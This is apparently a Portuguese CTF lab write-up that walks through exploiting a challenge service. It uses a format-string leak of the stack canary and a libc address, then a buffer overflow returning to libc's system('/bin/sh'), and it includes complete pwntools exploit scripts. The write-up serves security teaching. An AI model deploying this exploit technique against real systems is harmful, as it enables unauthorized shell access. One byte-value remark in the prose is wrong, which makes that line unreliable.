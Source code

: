 ## CTF EXTRA


### Demos debug ao programa e a função fgets está a ler 100 caracteres, quando supostamente diz que o maximo é 20.
### Tentamos correr o nc e obtivemos isto:
![Compilar](fotos/e1.png)

### Confirmando então que está a ocorrer uma string vulnerability.

### Para alem do program tambem nos é dado um ficheiro lib.c. Encontramos um ataque chamado reeturn to libc. Para executar esse ataque precisamosd de:

### Saber o "/bin/sh" usando o segundo comando do print em baixo e depois o system offset usando o primeiro comando.
![Compilar](fotos/e2.png)

### Depois disto usamos info pro map com o gdb e encontramos o intervalo onde a libc está mapeada: 0xf7d89000 a 0xf7f2b000

### Para saber que valor está no intevalo epara usá-lo para calcular o offset, criamos um script que dá obtem os valores da stack que foi contruida.

```python
    #!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
	pause()
else:
	p = remote("ctf-sp.dcc.fc.up.pt", 4002)

for i in range(1,14):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline("%" + str(i) + "$10p")
	answer = p.recvline()
	print("i: ", i, "-> stack", answer)
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")


p.interactive()

```
### Usando este script encontramos o valor, 0xf7daa519. Offset= 0xf7daa519- 0xf7d89000.

### Usamos o mesmo script para encontrar o canário que acaba sempre em 00 por causa do \0 e vimos que estava no indice 8.

![Compilar](fotos/ecan.png)


### Finalmente construimos um script:

### Primeiro, para obter o valor do canário (canary) e o endereço de referência da biblioteca libc. Isso é feito para que possamos redefinir o canário, para que ele não seja corrompido, e calcular o endereço da libc com base no deslocamento anterior.
### Em segundo lugar, para sobrescrever o endereço de retorno para a libc que calculamos.

### Por fim, para inserir o caractere ' \0 ' (nulo) para que o canário permaneça intacto.

```python
#!/usr/bin/python3
from pwn import *

LOCAL = False

referenceLibOffset = 0xf7daa519 - 0xf7d89000
systemLibOffset = 0x48150
shLibOffset = 0x1bd0f5

def sendMessage(p, message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-sp.dcc.fc.up.pt", 4002)

firstMessage = sendMessage(p, b"%8$x-%11$x")

canary, referenceVal = [int (val, 16) for val in firstMessage.split(b'-')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

secondMessage = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p, secondMessage)

sendMessage(p, b"A"*19)

p.interactive()

```
### Adicionamos 1 ao canário ao escrever o secondMessage, caso contrário, ele ainda terminaria com 00 e não poderíamos enviar bytes com valor 0.

### Calculamos o endereço de addressSH e addressSystem com base na libcbase real.

### No final, reescrevemos o canário, adicionando "A" 19 vezes para alcançar o canário e definir seu final como 0. Tenha em mente que "A" é representado por 0x1010.

![Compilar](fotos/efim.png)
